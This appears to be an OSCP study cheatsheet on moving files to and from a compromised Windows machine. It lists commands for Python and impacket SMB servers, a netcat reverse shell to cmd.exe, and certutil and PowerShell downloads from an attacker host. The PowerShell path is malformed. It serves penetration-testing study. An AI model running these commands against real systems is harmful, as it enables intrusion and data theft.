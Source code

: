 ```yaml
---
title: Windows File Transfers
author: linatl
date: "2021-03-10 00:01"
tags: [OSCP, Cheatsheet]
layout: post
---
```


###### Start a webserver
```
Python3
> sudo python3 -m http.server 80
Python2
> sudo python -m SimpleHTTPServer 80

//////
```


###### File uploads to target
```
impacket-smbserver.py secure .
impacket-smbserver.py secure . -smb2support

////
```

###### File uploads on target system
```

On target system:
netcat
\\192.168.1.1\secure\nc64.exe 192.168.1.1 80 -e cmd.exe

certutil
certutil.exe -urlcache -f http://192.168.1.1/file.txt file.txt

Using powershell
////////////// invokewebclient?

powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.1:80/file.txt', 'C\file.txt')
```


###### File downloads from target
```
nc -nvlp 80 < $FILENAME


```
